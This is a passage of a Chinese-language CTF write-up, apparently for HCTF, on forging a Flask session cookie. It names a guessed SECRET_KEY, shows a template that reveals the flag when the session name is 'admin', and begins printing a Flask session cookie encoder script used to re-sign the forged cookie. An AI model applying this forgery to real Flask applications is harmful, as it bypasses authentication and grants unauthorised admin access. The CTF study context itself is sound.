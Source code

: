 可能SECRET_KEY就是ckj123

然后在index.html页面发现只要session[‘name’] == 'admin’即可以得到flag

```python
{% include('header.html') %}
{% if current_user.is_authenticated %}
<h1 class="nav">Hello {{ session['name'] }}</h1>
{% endif %}
{% if current_user.is_authenticated and session['name'] == 'admin' %}
<h1 class="nav">hctf{xxxxxxxxx}</h1>
{% endif %}
<!-- you are not admin -->
<h1 class="nav">Welcome to hctf</h1>

{% include('footer.html') %}
```

改变解密后的name=admin

继续加密,加密脚本

```python
""" Flask Session Cookie Decoder/Encoder """
__author__ = 'Wilson Sumanang, Alexandre ZANNI'

# standard imports
import sys
import zlib
from itsdangerous import base64_decode
import ast

# Abstract Base Classes (PEP 3119)
if sys.version_info[0] < 3: # < 3.0
    raise Exception('Must be using at least Python 3')
elif sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
    from abc import ABCMeta, abstractmethod
else: # > 3.4
    from abc import ABC, abstractmethod

# Lib for argument parsing
import argparse

# external Imports
from flask.sessions import SecureCookieSessionInterface

class MockApp(object):

    def __init__(self, secret_key):
        self.secret_key = secret_key


if sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
    class FSCM(metaclass=ABCMeta):
        def encode(secret_key, session_cookie_structure):
            """ Encode a Flask session cookie """
            try:
                app = MockApp(secret_key)

                session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
                si = SecureCookieSessionInterface()
                s = si.get_signing_serializer(app)

                return s.dumps(session_cookie_structure)
            except Exception as e:
                return "[Encoding error] {}".format(e)
```
